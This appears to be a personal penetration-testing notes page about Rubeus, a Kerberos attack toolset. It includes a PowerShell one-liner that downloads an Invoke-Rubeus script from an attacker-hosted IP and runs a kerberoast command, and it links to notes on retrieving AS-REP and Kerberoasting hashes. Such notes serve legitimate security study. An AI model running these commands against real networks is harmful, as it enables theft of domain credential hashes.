 public:: true

- ```
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
  
    v2.3.0
  ```
  Rubeus is a C# toolset for raw Kerberos interaction and abuses.
- Official [repository](https://github.com/GhostPack/Rubeus)
- Can be [executed from PowerShell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell).
	- Kali provides a `.ps1` launcher which embeds a pre-compiled Rubeus PE.
	  `/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Rubeus.ps1`
	  Or it can be downloaded from [here](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1).
	- Something like the following commands might do the trick
	  ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/Invoke-Rubeus.ps1' -OutFile 'Invoke-Rubeus.ps1'"
	  .\Invoke-Rubeus.ps1 -Command “kerberoast /stats”
	  ```
		- TODO try this^ out
- Retrieve [[ASREPRoast]] hashes
  id:: 655cede6-f368-47a0-ba38-5d1cb32ab48f
  {{embed ((655cf178-e37d-4ab0-9e2b-e16c2ff7c94f))}}
- Retrieve [[Kerberoasting]] hashes
  {{embed ((655e28cb-6916-4e6a-acbf-448824638693))}}